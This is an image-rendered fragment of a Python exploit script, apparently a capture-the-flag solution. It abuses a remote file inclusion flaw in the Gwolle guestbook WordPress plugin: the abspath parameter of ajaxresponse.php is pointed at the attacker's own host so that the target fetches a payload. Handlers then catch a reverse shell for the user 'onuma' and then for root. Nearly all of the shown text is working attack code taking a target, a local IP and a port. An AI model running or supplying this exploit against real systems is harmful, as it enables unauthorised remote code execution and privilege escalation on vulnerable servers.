 ```py
    print("[+] Done ! [+]")

# Triger Reverse Shell
def TriggerReverse(rhost,lhost,lport):
    print("[+] Just Trigger It !!! [+]")
    url = "http://%s:80/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://%s/" %(rhost,lhost)
    try:
        r.get(url,timeout=0.0000000001, proxies=proxies)
    except requests.exceptions.ReadTimeout: 
        pass
    # Call the onuma handler
    HandlerOnuma(lport,lhost)
    # Call the root handler
    HandlerRoot(lport)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localip', help='Local ip address or hostname', required=True)
    parser.add_argument('-lp', '--localport', help='Local port', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    lhost = args.localip
    lport = args.localport
    
    '''Here we call the functions'''
    # Set up the web python server
    webServer()
    # Create Payload
    createPayload(lhost,lport)
    # Trigger it
    TriggerReverse(rhost,lhost,lport)
    
if __name__ == '__main__':
    main()
```